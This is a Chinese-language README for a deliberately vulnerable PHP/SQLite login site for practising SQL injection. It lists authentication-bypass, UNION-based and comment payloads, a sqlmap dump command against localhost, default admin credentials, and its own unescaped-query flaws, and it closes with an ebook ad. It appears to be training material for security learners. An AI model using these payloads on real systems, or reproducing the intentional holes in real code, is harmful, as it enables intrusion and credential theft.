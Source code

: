 # SQL注入测试站点

> 这是一个专门设计用于教学SQL注入技术的易受攻击的Web应用程序。该项目提供了一个具有已知SQL注入漏洞的简单登录页面，用于教育目的。

⚠️ **警告：** 此应用程序是故意设置漏洞的，仅用于教育用途。请勿在任何生产环境中部署此应用。

---

## 概述

本项目模拟了一个具有故意SQL注入漏洞的基础登录页面，帮助学生和专业人士学习：

- 基本的SQL注入技术
- SQLMap的使用
- Web应用安全测试
- 数据库利用

---

## 前置要求

运行此项目需要安装以下软件：

- PHP 7.0或更高版本
- SQLite3
- Python 3.x（用于SQLMap）
- SQLMap

---

## 安装

1. 克隆仓库：

   ```bash
   git clone https://github.com/ctkqiang/TestSiteSQLinjection.git
   cd TestSiteSQLinjection
   ```

2. 初始化数据库：

   ```sql
   -- 首次运行时将自动执行以下SQL
   CREATE TABLE IF NOT EXISTS users (
       id INTEGER PRIMARY KEY,
       username TEXT,
       password TEXT
   );

   -- 已预先填充示例用户数据
   -- 包括管理员和普通用户账户
   ```

---

## 运行应用

1. 启动PHP开发服务器：

   ```bash
   php -S 0.0.0.0:3000
   ```

2. 访问应用：

   - 打开浏览器并访问 `http://localhost:3000`
   - 将显示登录页面

---

## SQL注入测试

### 手动测试

尝试这些SQL注入载荷来探索漏洞：

1. **基本认证绕过：**

   ```sql
   ' OR '1'='1
   ```

2. **基于UNION的注入：**

   ```sql
   ' UNION SELECT username, password, id FROM users--
   ```

3. **基于注释的绕过：**

   ```sql
   admin'--
   ```

### 使用SQLMap进行自动化测试

运行SQLMap来自动化SQL注入测试：

```bash
python3 sqlmap.py -u "http://localhost:3000/index.php" --data="username=admin&password=' OR 1=1--" --dbms=sqlite --dump
```

**SQLMap参数说明：**

- `-u`：目标URL
- `--data`：带注入点的POST数据
- `--dbms`：指定数据库类型（SQLite）
- `--dump`：获取数据库内容

---

## 成功指标

当成功利用漏洞时，应用程序将：

1. 在浏览器控制台记录"hacked"
2. 显示检索到的用户信息
3. 显示成功登录消息

---

## 数据库结构

应用程序使用SQLite，其架构如下：

```sql
users
├── id (INTEGER PRIMARY KEY)
├── username (TEXT)
└── password (TEXT)
```

数据库预先填充了测试账户，包括：

- **普通用户：** john.doe, jane.smith等
- **管理员用户：** admin/admin123, admin/secretpass123

---

## 安全提示

此应用程序包含故意的漏洞，例如：

- 未转义的SQL查询
- SQL语句中直接使用用户输入
- 明文密码存储
- 无输入净化

**禁止：**

- 在生产环境中使用此代码
- 在公共服务器上部署
- 使用真实凭据或敏感数据

---

## 教育目标

通过使用此项目，你将学习：

1. SQL注入漏洞如何产生
2. 识别SQL注入点的方法
3. 使用自动化工具进行安全测试
4. 通过利用漏洞理解数据库结构
5. 正确输入净化的重要性

---

## 贡献

欢迎贡献！你可以通过以下方式帮助：

- 添加新的测试漏洞
- 改进文档
- 创建额外的学习资源
- 添加更多测试用例

---

### 想成为黑客高手？

🚀 我已将10年的专业知识浓缩成一本强大的电子书。学习高级技术、实际示例和分步命令，掌握使用SQLMap进行SQL注入的技巧。

[立即购买](https://ko-fi.com/s/5ad8a06662)，开启你的学习之旅！

#SQL注入 #黑客 #网络安全 #道德黑客 #电子书